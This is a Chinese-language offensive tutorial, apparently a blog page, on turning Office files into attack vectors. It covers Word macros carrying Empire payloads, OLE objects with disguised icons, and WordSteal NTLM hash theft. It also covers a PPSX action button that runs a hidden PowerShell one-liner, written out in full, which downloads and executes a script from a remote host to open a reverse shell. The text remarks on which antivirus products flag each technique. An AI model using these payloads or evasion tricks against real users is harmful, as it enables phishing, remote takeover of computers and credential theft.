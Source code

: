    ![](http://7xicbb.com1.z0.glb.clouddn.com/go1.png)
  
   然后将生成好的payload粘贴进去保存即可
  
>   这里使用Empire的payload  usestager windows/macro

  打开word文档再允许宏运行即可执行payload
  
  ![](http://7xicbb.com1.z0.glb.clouddn.com/go2.png)
  
   ```
  Windows Defence会将文件上传到服务器，但是不会报毒
  360之类的杀软会显示是宏病毒
  ```

### Office OLE

   说到Office的OLE必然就会想到CVE-2017-0199但是CVE不在这次的讨论中.
   
   OLE的好处就是在于你的payload的免杀的前提下是不会触发Windows Defence 的报告　但是360依然报宏病毒( ?)
   
   Office系列在选择插入－>对象->由文件创建(选择你提前构造好的bat vbs ...即可)
  
   接下来修改显示名称跟ico图标即可
   
   ![no pic](http://x/ole.png)
   
   效果如下
   
   ![no pic](http://x/go3.gif)

   **比较不足的地方就是可恨的Windows提示框！**


### PPSX的动作设置

新建一份ppt文件，在选择**插入->形状->动作按钮**　

选择单击鼠标或者鼠标移过都行，再运行程序中填写

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c $q=new-object net.webclient;$q.proxy=[Net.WebRequest]::GetSystemWebProxy();$q.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $q.downloadstring('http://192.168.1.9:9966/mSJ0xW1');
```

然后保存文件 打开的时候会有一个安全提醒

![](http://7xicbb.com1.z0.glb.clouddn.com/ppsx.png)

点击全部启用就可以reverse shell了

### WordSteal

wordsteal是可以通过插入一张带有UNC路径的图片在Word中来偷取目标的NTLM HASH。可以在不知不觉达到获取目标电脑密码的方法

From:
> https://github.com/0x09AL/WordSteal
